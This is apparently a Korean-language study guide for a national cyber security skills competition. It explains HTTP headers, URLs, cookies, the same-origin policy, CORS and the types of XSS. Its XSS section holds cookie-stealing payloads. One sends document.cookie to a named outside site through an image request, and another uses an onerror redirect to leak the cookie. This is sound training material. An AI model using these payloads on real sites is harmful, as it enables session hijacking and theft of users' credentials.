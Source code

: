 ```yaml
---

# 🛡 사이버 보안 *Cyber Security* 🔐
## 🖋 *Written by **Donghyun Choi*** (**KGU**)
###### ⚔ - Worldskills Korea ▫ National 2025 (Cyber Security Practice) - 🏹 [ *Written by NullBins* ]
- By default, Solves problems using only Kali Linux.
- ❗❗ **Never attempt to use this guide on a commercial site or server. You do so at your own risk.** ❗❗
- ❗❗ **절대로 이 가이드를 보고 상용 중인 사이트나 서버에 시도하지 마십시오. 해당행위로 생기는 책임은 본인에게 있습니다.** ❗❗

# [ *Project-3* ] <*⚔Hacking Guides🛠*>

---
```


## 1. 🌐웹 해킹 (Web Hacking)
- **HTTP 헤더 (HTTP Header)**: HTTP 헤더의 각 줄은 `CRLF`로 구분되며, 첫 줄은 `Start Line`, 나머지 줄은 `Header`라고 부른다. 헤더의 끝 줄은 빈 줄로 나타낸다.
- **CRLF**: `CR(Carriage Return)`과 `LF(Line Feed)`의 조합을 나타낸다. **CR**은 커서를 현재 줄의 맨 앞으로 이동시키는 문자, **LF**는 커서 다음 줄로 문자이다.
- 윈도우에서는 줄을 종결하기 위해 `CRLF`를 사용하고, 리눅스나 유닉스 기반 운영체제에서는 `LF`만을 사용한다.
- **HTTP 요청의 시작줄**은 `메소드(Method)`, `요청 대상(Request Target)`, `HTTP 버전`으로 구성된다. (ex. POST /login HTTP/1.1)
- **URL(Uniform Resource Locator)**: `웹에 있는 리소스의 위치`를 표현하는 문자열이다.
- **URL**은 http(`schema`)://cybersecurity.skills:8080(`authority`)/login(`path`)?id=user01(`query`)#name(`fragment`) 로 표현된다.
- **Fragment**는 *메인* 리소스에 존재하는 *서브* 리소스에 접근할때 이를 식별하기 위한 정보를 담고있다.
### **쿠키 생성 JavaScript 명령어**
```javascript
document.cookie = "name=test;"
document.cookie = "age=30;"
```
- **SOP(Same Origin Policy)** 란 동일 출처 정책으로서 보안 메커니즘이다. 이걸 사용하는 이유는 *브라우저는 웹 리소스를 통해 간접적으로 `타 사이트를 접근할때`도 인증 정보인 쿠키를 함께 전송하는 특징때문이다.*
- 이 SOP를 적용하게 되면 `스키마`, `호스트`, `포트`만 달라도 Cross Origin으로 인식하게 된다. 오로지 Path만 허용하게 된다.
- 예를들어 `https://meister.hrdkorea.or.kr` 이라는 사이트에 접속하여 밑에 있는 명령어를 입력하게 되면 SOP가 적용되어 있는 사이트의 경우 `Origin 오류`가 생긴다.
### Cross Origin 공격
```javascript
crossNewWindow = window.open('http://www.world-skills.kr');
console.log(crossNewWindow.location.href);
```
- 하지만 밑의 명령어 처럼 데이터를 쓰는것은 문제없이 동작한다.
### 데이터 쓰기
```javascript
crossNewWindow = window.open('http://www.world-skills.kr');
crossNewWindow.location.href = "https://meister.hrdkorea.or.kr";
```
- 사이트의 호스트가 달라 SOP때문에 정보를 교환하지 못할때 이러한 Cross Origin 정책을 완화시켜주는 방식은 `CORS(Cross Origin Resource Sharing)`이다.
- **Stored XSS**: `악성 스크립트가 서버에 저장`되고 `서버 응답에 담겨오는` XSS
- **Reflected XSS**: `악성 스크립트가 URL에 저장`되고 `서버 응답에 담겨오는` XSS
- **DOM-Based XSS**: `악성 스크립트가 URL Fragment에 저장`되는 XSS
- **Universal XSS**: 브라우저 플러그인 취약점으로 `SOP 정책을 우회하는` XSS
### XSS 스크립트
```html
<script>
document.cookie;
alert(document.cookie);
document.cookie = "name=test;";
new Image().src = "https://meister.hrdkorea.or.kr?cookie=" + document.cookie;
document;
document.write = "You have been Hacked!";
</script>
<img src="XSS" onerror="location.href = '?cookie=' + document.cookie">
```

---

## 2. 🛠리버스 엔지니어링 (Reverse Engineering)
- 도구: radare2, ghidra, gdb, objdump
